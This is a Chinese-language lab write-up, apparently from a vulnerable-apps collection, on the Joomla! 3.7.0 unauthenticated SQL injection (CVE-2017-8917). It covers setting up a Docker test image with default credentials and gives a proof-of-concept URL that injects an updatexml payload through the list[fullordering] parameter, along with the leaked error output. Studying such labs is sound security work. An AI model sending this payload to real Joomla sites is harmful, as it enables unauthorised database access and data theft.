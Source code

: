 ```yaml
---
layout: post
title: "Joomla! 3.7.0 Core SQL Injection (CVE-2017-8917)"
date: 2017-05-18 21:09:35 +0800
image: '/assets/img/'
description: 'Joomla! 3.7.0 版本存在SQL注入漏洞，攻击者可以在未授权的情况下进行SQL注入'
main-class: 'hole'
color: '#B31917'
tags:
- Joomla
- SQLI
categories:
- Joomla
twitter_text: 'Joomla! 3.7.0 版本存在SQL注入漏洞，攻击者可以在未授权的情况下进行SQL注入'
introduction: 'Joomla! 3.7.0 版本存在SQL注入漏洞，攻击者可以在未授权的情况下进行SQL注入'
---
```


### 漏洞信息

Joomla于5月17日发布了新版本3.7.1,（(Joomla! 3.7.1 Release News)[https://www.joomla.org/announcements/release-news/5705-joomla-3-7-1-release.html]），本次更新中修复一个高危SQL注入漏洞（[[20170501] - Core - SQL Injection](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html))，成功利用该漏洞后攻击者可以在未授权的情况下进行SQL注入。

详细参考：[Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/administrator/ | admin | admin123


### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:j_joomla_2
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8000:80 medicean/vulapps:j_joomla_2
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 使用

```
http://你的 IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20md5(1))),1)
```

看到结果成功执行了 `select md5(1)`：

```
If difficulties persist, please contact the System Administrator of this site and report the error below.

500 XPATH syntax error: 'c4ca4238a0b923820dcc509a6f75849b'
```

### 相关链接

* [SQL Injection Vulnerability in Joomla! 3.7](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html)
* [Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)
* [[20170501] - Core - SQL Injection](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)
